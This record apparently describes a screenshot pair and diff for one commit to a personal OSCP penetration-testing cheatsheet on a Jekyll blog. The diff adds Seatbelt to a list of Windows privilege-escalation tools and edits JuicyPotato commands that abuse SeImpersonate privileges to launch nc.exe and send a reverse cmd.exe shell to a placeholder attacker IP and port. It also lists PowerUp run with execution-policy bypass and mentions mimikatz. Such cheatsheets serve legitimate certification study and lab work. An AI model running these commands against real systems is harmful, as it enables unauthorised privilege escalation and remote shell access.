

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-09-18-OSCP-personal-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 24359 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-09-18-OSCP-personal-cheatsheet.md
+++ b/_posts/2020-09-18-OSCP-personal-cheatsheet.md
@@ -1393,6 +1394,7 @@ apt update hooking (PreInvoke)
 ```
 winPEAS.exe
 windows-privesc-check2.exe
+Seatbelt.exe -group=all
 powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
 Powerless.bat
 winPEAS.bat
@@ -1426,8 +1428,8 @@ mimikatz.exe
 ```
 If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.
 
-JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
-JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>
+JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
+JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>
 
 # CLSID
 https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
````
Also changed, not shown: other parts of _posts/2020-09-18-OSCP-personal-cheatsheet.md (+1 -0 lines).
